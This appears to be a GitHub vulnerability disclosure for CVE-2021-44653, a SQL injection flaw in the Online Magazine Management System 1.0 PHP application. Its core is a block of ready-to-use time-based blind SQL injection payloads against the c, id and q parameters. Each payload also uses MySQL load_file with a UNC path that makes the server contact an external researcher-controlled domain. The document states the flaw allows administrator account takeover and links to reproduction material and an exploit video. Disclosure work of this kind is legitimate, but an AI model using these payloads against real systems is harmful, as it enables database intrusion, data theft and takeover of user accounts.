 ## [CVE-2021-44653](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2021-44653)

## [Software](https://www.sourcecodester.com/php/15061/online-magazine-management-system-php-free-source-code.html)

## [Vendor](https://www.sourcecodester.com/users/tips23)

![](https://github.com/nu11secur1ty/CVE-mitre/blob/main/CVE-2021-44653/Docs/Screenshot%202021-12-26%20210533.png)

## Description:
The  parameters `c`, `id` and `q` in /magazines/ node app from OMMS-1.0 appear to be vulnerable to Multiple SQL injection attacks. 
The payload '+(select load_file('\\\\vvuxyecn8v7q1d6md7ioocc5awgp4hu5l89zwqkf.nu11secur1tyPenetrationTestingEngineer.net\\riz'))+' was submitted in the c and in the other parameters. 
This payload injects a SQL sub-query that calls MySQL's load_file function with a UNC file path that references a URL on an external domain. 
The application interacted with that domain, indicating that the injected SQL query was executed.
The attacker can take administrator account and other accounts of this vulnerable system.
Status: CRITICAL

[+] Payloads:

```mysql

---
Parameter: q (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: q=ogo8j6v2kn5215vfgll4qrnbct5zwgzlgb5'+(select load_file('\\\\xuvzxgbp7x6s0f5oc9hqneb79yfr3qrhu5lsbg0.nu11secur1tyPenetrationTestingEngineer.net\\fjb'))+'') AND (SELECT 4099 FROM (SELECT(SLEEP(3)))ItFP) AND ('RFqO'='RFqO
---

---
Parameter: c (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=categories&c=3'+(select load_file('\\\\vvuxyecn8v7q1d6md7ioocc5awgp4hu5l89zwqkf.nu11secur1tyPenetrationTestingEngineer.net\\riz'))+'' AND (SELECT 1579 FROM (SELECT(SLEEP(3)))OnzY) AND 'obZT'='obZT
---

---
Parameter: id (GET)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: page=view_magazine&id=1'+(select load_file('\\\\t0uv3chldtco6bbki5nmtah3fuln9e9205owbnzc.nu11secur1tyPenetrationTestingEngineer.net\\mha'))+'' AND (SELECT 4930 FROM (SELECT(SLEEP(3)))uRCR) AND 'ZDnW'='ZDnW
---

```

## Reproduce:
[href](https://github.com/nu11secur1ty/CVE-mitre/tree/main/CVE-2021-44653)

## Proof and Exploit:
[href](https://streamable.com/4qhwgz)
